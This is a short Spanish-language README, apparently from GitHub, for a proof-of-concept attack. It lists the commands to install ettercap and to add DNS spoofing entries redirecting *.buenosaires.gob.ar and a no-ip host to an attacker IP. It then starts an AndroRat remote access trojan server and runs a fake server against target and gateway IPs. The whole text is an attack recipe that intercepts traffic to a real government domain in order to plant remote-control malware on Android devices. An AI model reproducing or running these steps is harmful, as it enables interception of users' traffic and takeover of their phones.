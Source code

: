 # POC # 

## Requerimientos ##

```
sudo apt-get install ettercap-graphical
```

## Configuración ##

Agregar a /etc/ettercap/etter.dns las lineas:

```
*.buenosaires.gob.ar A IP
malware-test.no-ip.info A IP
```
Correr server AndroRat:

```
sudo java -jar AndroRat.jar
```

Finalmente servidor falso con:

```
sudo python FakeComoLLegoServer.py /IP_TARGET/ /IP_GATEWAY/ /IP_LOCAL_HOST/
```
